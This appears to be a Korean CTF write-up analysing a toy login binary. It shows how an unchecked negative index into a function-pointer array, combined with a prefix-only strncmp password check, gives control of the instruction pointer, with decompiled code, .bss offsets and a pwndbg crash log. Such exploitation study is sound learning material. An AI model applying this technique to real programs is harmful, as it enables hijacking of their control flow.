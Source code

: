 ```c
void __noreturn exit_func()
{
  puts("Bye Bye~");
  exit(0);
}
```
exit 함수 또한 특별한 기능은 없다.

간단하게 살펴본 코드 중 문제가 되는 부분은 아래의 두 가지다.

##### 함수포인터를 int 형으로 입력받는다.
```c
__isoc99_scanf("%d", &v4);
if ( v4 > 3 )
  break;
(fptr[v4])("%d", &v4);
```

if문을 통해 입력받은 값이 3보다 클때 break 문을 통해 빠져나오게 끔 했으나. 음수 값을 필터링 하지 않고 있다. 따라서 음수 값을 입력함으로써 함수 포인터를 조작할 수 있다.

##### 큰 배열에 strncmp를 사용한다.
```c
if ( !strncmp(id, "admin", 5uLL) && !strncmp(password, "admin!", 6uLL) )
{
  result = puts("[+] Access");
  login_chk = 1;
}
```
strncmp의 특징은 비교대상(문자열)을 세번째 인자만큼 비교하며 비교 결과가 참이면 뒤의 문자열을 신경쓰지 않는다. 따라서 뒤의 공간을 활용할 수 있게 된다.

두 가지 문제점을 사용하여 바이너리의 공격이 가능하다.

```
.bss:00000000006010A0 password        db 34h dup(?)           ; DATA XREF: login+5Ao
.bss:00000000006010A0                                         ; login+8Bo ...
.bss:00000000006010D4                 public login_chk
.bss:00000000006010D4 login_chk       dd ?                    ; DATA XREF: login+4r
.bss:00000000006010D4                                         ; login+A3w ...
.bss:00000000006010D8                 align 20h
.bss:00000000006010E0                 public fptr
.bss:00000000006010E0 ; __int64 fptr[]
```
먼저 함수 포인터 fptr이 password까지 거리는 hex(0x6010e0 - 0x6010a0) / 8 = 8이다.

-8을 넣으면 password가 가지고 있는 값이 RIP로 바뀔 것이다.

그리고 strncmp가 admin! 문자열만 비교한다는 특성을 이용하여 RIP 컨트롤이 되는지 확인했다.

```
pwndbg> r
Starting program: /home/secretpack/Desktop/admin

1. Login
2. Logout
3. Exit
>1
ID: admin
Password: admin!AABBBB
[+] Access

1. Login
2. Logout
3. Exit
>-7

Program received signal SIGSEGV, Segmentation fault.
0x0000000a42424242 in ?? ()
```